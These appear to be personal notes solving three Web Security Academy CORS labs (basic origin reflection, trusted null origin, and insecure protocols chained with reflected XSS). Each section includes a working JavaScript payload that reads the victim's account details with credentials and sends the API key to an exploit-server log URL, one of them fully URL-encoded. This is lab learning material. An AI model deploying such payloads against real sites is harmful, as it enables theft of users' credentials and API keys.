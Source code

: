 # Encounters with CORS vulnerabilities

# CORS with basic origin reflection
Retrieve the Administrator API key
## Observations
- Can login but otherwise very basic site. 
- Once logged in I have access to an API key which is new. 
-- There is an /accountDetails request that gets my username, email, API key, and session tokens. 
- The response to the account details page contains a header "Access-Control-Allow-Origin" which probably means they're doing some CORS policies. 
- Usin the origin: http://evil.com it is reflected in the ACAO header. 
- Steal the API key with the following payload which creates a new AJAX request opening /account-Details via a GET and sends the credential (true). 
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a5c00ba04df5abb809e031600da00ee.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

# CORS vulnerability with trusted null origin
Get the API key. 
## Observations
- Login with an API key in the dashboard. 
- Another Account Details request.
- ```Origin: null``` works as the server responds with Access-Control-Allow-Origin: null.
- We can try to force a null origin by sandboxing the payload this time:
```
<iframe sandbox="allow-scripts" srcdoc="
<script>
  var req = new XMLHttpRequest();
  req.onload = function() {
    // Exfiltrate via redirect
    location = 'https://exploit-0a66002b03953236802e161a012f005e.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
  };
  req.open('GET', 'https://0ab5009b03b732ec80df17b300210043.web-security-academy.net/accountDetails', true);
  req.withCredentials = true;
  req.send();
</script>
"></iframe>
```

# CORS vulnerability with trusted insecure protocols
Steal API key
## Observations
- Origin accepts http versions of the lab URL and subdomains variants of it. 
- You can check the stock on store items and it goes to a stock subdomain. 
- The product ID param is vulnerable to reflected XSS. 
- What we can do is URL encode the CORS AJAX payload from the first encounter above and put that as the XSS payload in the URL to the stock checking site. Then take that an put it in an script payload and deliver it to the victim. 
```
<script>
document.location="https://stock.0ab600bf047c49e680a5df2900f80093.web-security-academy.net/?productId=6%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%0a%20%20%20%20%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%30%61%62%36%30%30%62%66%30%34%37%63%34%39%65%36%38%30%61%35%64%66%32%39%30%30%66%38%30%30%39%33%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%0a%20%20%20%20%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%20%20%20%20%72%65%71%2e%73%65%6e%64%28%29%3b%0a%0a%20%20%20%20%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%0a%20%20%20%20%20%20%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%35%31%30%30%61%65%30%34%36%30%34%39%32%33%38%30%37%33%64%65%32%36%30%31%31%31%30%30%37%63%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%6c%6f%67%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1"
</script>
```
This works on me but doesn't work on the victim for some reason so I am going to decode it and see if that was the issue:
```
<script>
    document.location="http://stock.0ab600bf047c49e680a5df2900f80093.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ab600bf047c49e680a5df2900f80093.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a5100ae046049238073de260111007c.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
They're almost the same payload but the URL encoding seems to have thrown off the exploitation effectiveness when delivered to the victim. 




